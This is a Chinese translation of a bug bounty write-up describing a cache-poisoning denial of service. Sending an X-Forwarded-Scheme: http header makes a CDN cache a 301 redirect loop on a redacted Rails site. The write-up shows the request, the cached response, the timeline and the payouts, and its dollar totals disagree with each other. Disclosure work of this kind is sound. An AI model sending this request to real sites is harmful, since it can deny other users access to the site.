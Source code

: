 # 我如何通过入侵 CDN 缓存服务器赚到 16500 美元——第三部分

> 原文：<https://infosecwriteups.com/how-i-made-16-500-hacking-cdn-caching-servers-part-3-91f9d836e046?source=collection_archive---------2----------------------->

## @bxmbn

![](img/0e9c917ff9ee765e0488c6c45b3afa3b.png)

# 通过 X-Forwarded-Scheme 标头的缓存中毒拒绝服务

> *赏金:3000*

我不知道这是一件事，直到我看到@iustinBB 的一篇关于缓存中毒研究的博客[大规模缓存中毒](https://youst.in/posts/cache-poisoning-at-scale/)

```
Sending the x-forwarded-scheme: http header would result  into a 301 redirect to the same location. If the response was cached by a CDN, it would cause a redirect loop, inherently denying access to the  file.
```

我很快想起了一个使用缓存服务器和 Ruby on Rails 的私有程序资产

## 请求:

```
GET /?xxx HTTP/2 
Host: Redacted
X-Forwarded-Scheme: http 
...
```

*如果你要测试这个，你应该总是使用“缓存破坏者”(？anything=x)在这种情况下，我用(？xxx)这样我就不会误毒其他用户了。*

## 回应:

```
HTTP/2 301 Moved Permanently 
Date: Wed, 19 Jan 2022 17:16:13 GMT 
Content-Type: text/html 
Location: Redacted
Via: 1.1 vegur 
Cf-Cache-Status: HIT 
Age: 3
```

如果攻击者对缓存服务器计时并毒害 https://redacted/

当请求 https://redated/时，用户的响应将是

```
HTTP/2 301 Moved Permanently
Cf-Cache-Status: HIT 
```

他们将无法访问[https://redated/](https://redacted/)，因为攻击者保存了 301 重定向，并且不会加载，直到缓存刷新。

# 时间线:

> 报道→2022 年 1 月 19 日
> 
> 待定计划审核→2022 年 1 月 25 日
> 
> 分流→2022 年 1 月 25 日
> 
> 奖金发放→2022 年 1 月 26 日

这三份报告的总费用为 11，300 美元

我只选择了这三份报告，因为它们是获奖最多的。

我对其他程序应用了相同的方法，这包括缓存欺骗问题，如 [#1343086](https://hackerone.com/reports/1343086)

在 [HackerOne](https://hackerone.com/) 和 [BugCrowd](https://www.bugcrowd.com/) 上总共赚了 15400 美元

感谢阅读！

确保在 Twitter 上关注我；)

[@bxmbn](https://twitter.com/bxmbn)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)